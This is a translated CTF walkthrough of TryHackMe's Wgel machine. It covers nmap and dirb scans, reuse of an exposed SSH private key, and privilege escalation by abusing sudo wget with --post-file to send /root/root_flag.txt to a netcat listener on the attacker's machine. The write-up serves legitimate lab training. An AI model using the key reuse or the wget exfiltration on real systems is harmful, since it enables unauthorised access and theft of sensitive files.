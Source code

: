 # 威格尔·CTF—TryHackMe 演练

> 原文：<https://infosecwriteups.com/wgel-ctf-tryhackme-walkthrough-e1912f5ee62c?source=collection_archive---------1----------------------->

![](img/f7eeceeab62da8074647a24b452abf91.png)

*免责声明:本文仅用于教育目的，未经被黑对象的事先同意，不要试图黑入任何人的设备，并且仅将这些信息用于道德目的。此外，不要侵入文章中显示的 IP，因为你需要 VPN 访问来查看它们，并且它总是在变化。*

学习道德黑客的最好方法是实践。但是真的很难找到愿意同意你黑他们的人**。这就是 Capture the Flag(CTF)公司发挥作用的地方，这些公司(如 TryHackMe)允许你合法地在他们的机器上进行道德黑客行为。在这篇文章中，我将带你了解如何在 TryHackMe 上攻击**威格** CTF。**

## 扫描和计数

我总是做的第一件事是用 Nmap 运行网络扫描，这样我就可以了解网络结构/架构，信息=能力。

```
nmap -A -T4 -v [IP]
```

*   A =获取设备信息
*   T4 =跑得更快
*   v =扫描时打印输出

![](img/e53d566ff2c5c69920a612edbc0e9418.png)

Nmap 结果

我看到运行 Apache 的端口 80 是打开的，所以我在 web 浏览器中打开了这个网站，查看发生了什么。我看到了一个默认网页(表明卫生/实践不佳)

![](img/af64f9cdbb20c19353e62f669285f497.png)

默认 Apache 网页

我查看了页面源代码，看到了一个叫“jessie”的评论，这可能是一个用户名。

![](img/4a99c66c8a09103b09ae3515e7d2300b.png)

默认网页的页面来源

我开始用 *dirb* 枚举网页目录

```
dirb http://[ip]
```

![](img/b621070a8895cc7673a4973db6833229.png)

Dirb 结果

它返回的结果是 *http://[ip]/sitemap* 作为一个可能的目录，我导航到它并看到

![](img/f5187cac4dab304d79b72750d800cb25.png)

网站目录“网站地图”

我开始在网站上手动枚举，但是似乎没有什么问题，所以我用 *dirb 在网站目录上做了更多的枚举。*

![](img/4f75e8cac797147c4b061ad6c402e2f8.png)

枚举“站点地图”目录

看到了 *http://[ip]/sitemap/。ssh* ，它看起来很有趣，所以我导航到目录并看到了它。

![](img/dd34de302b2ea8c870301199f72bb17e.png)

在/sitemap/中。ssh 目录

我点击 id_rsa 目录，它向我显示了一个私有 ssh 密钥。可用于登录 ssh 而无需密码。

![](img/036e37206909262b983b5d6345e754f1.png)

私有 ssh 密钥

我只是将它复制到一个文件中，并确保将其文件权限更改为 **600，**，因为没有特定的权限它将无法工作。

```
nano id_rsa
chmod 600 id_rsa
```

## **利用**

现在我们可以通过 ssh 登录了

```
ssh -i id_rsa jessie@[ip] 
```

![](img/4b53da7a769a34399219f11b2d36ea48.png)

使用 id _ rsa 到机器中

耶，我们有低级别权限

## **特权升级**

当我想提升我的权限时，我做的第一件事就是检查 Sudo 权限(例如:我可以作为 root 运行什么)

```
sudo -l
```

![](img/5e90a8599e2535fe4002aea4e9fced3b.png)

检查 sudo 权限

我们可以看到，我们可以以 root 用户身份运行 wget，现在我们可以转到 [GTFObins](https://gtfobins.github.io/) 来寻找升级技术。

![](img/88000d3e359ecfd21b5d7edbeaf48377.png)

GTFObins wget sudo 升级技术

从高层次上看，这些命令基本上是获取某个文件，并将其发送到道德黑客的桌面。我们可以通过在自己的机器上打开一个端口来复制这种技术

```
nc -nvlp 9999
```

然后向该机器发送根标志

```
sudo wget --post-file=/root/root_flag.txt [http://[my_ip]:9999](http://[my_ip]:9999)
```

现在，如果我们回顾 netcat，我们可以看到一串字符(这是根标志)。

![](img/facba6a0bf35d972ee3e63aea813a73c.png)

Netcat 接收根标志

恭喜你，你已经根了机器。感谢您阅读这个 CTF 演练，并记住**只有**将此信息用于**道德目的。**

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)